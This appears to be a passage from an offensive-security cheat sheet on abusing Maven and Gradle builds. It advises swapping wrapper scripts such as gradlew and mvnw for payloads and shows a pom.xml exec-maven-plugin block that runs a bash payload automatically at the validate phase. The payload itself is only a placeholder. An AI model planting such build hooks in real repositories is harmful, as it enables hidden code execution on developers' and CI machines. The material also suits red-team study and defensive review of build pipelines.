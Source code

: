 

### Maven / Gradle

> These package managers come with "wrappers" that help with running custom commands for building / testing the project.\
These wrappers are essentially executable shell/cmd scripts.
Replace them with your payloads to have them executed:

- `gradlew` 
- `mvnw`
- `gradlew.bat` (windows)
- `mvnw.cmd` (windows)


> Occasionally the wrappers will not be present in the repository.\
> In such cases you can edit the `pom.xml` file, which instructs maven what dependencies to fetch and which `plugins` to run.\
> Some plugins allow code execution, here's an example of the common plugin `org.codehaus.mojo`.\
> If the `pom.xml` file you're targeting already contains a `<plugins>` instruction then simply add another `<plugin>` node under it.\
> If if **doesn't** contain a `<plugins>` node then add it under the `<build>` node.

NOTE: remember that your payload is inserted in an XML document - XML special characters must be escaped.


```xml
<build>
    <plugins>
        <plugin>
          <groupId>org.codehaus.mojo</groupId>
          <artifactId>exec-maven-plugin</artifactId>
          <version>1.6.0</version>
          <executions>
              <execution>
                  <id>run-script</id>
                  <phase>validate</phase>
                  <goals>
                      <goal>exec</goal>
                  </goals>
              </execution>
          </executions>
          <configuration>
              <executable>bash</executable>
              <arguments>
                  <argument>
                      -c
                  </argument>
                  <argument>{XML-Escaped-Payload}</   argument>
              </arguments>
          </configuration>
        </plugin>
    </plugins>
</build>
```
